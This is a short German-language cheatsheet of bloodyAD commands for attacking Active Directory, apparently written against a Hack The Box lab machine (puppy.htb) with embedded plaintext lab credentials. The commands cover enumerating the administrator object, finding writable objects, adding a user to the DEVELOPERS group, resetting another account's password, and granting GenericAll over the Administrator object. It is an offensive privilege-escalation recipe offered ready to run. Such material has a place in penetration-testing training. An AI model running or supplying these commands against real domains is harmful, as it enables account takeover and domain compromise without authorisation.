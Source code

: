 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```bash
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object administrator
```
<br>

🧩 **Add User To Group**

Zeigt die Zugriffsrechte (ACLs) auf das Gruppenobjekt $group_name im Active Directory. 
Anhand der Rechte kann dann die Mitgliedschaft hinzugefügt werden, sofern GenericAll, WriteProperty, WriteDACL etc. vorhanden sind.
```
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

<br>

🧩 **Change Password**

Fragt mit bloodyAD die Zugriffssteuerungsliste (ACL) eines Active Directory-Objekts und anschließend wird das Passwort vom Zielobjekt geändert, sofern Berechtigungen vorhanden sind.
```
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Versucht, dem Benutzer Levi.James die GenericAll-Berechtigung auf das AD-Objekt mit dem Distinguished Name Administrator zu geben.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass levi.james volle Rechte bekommt.“
```
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" levi.james
```
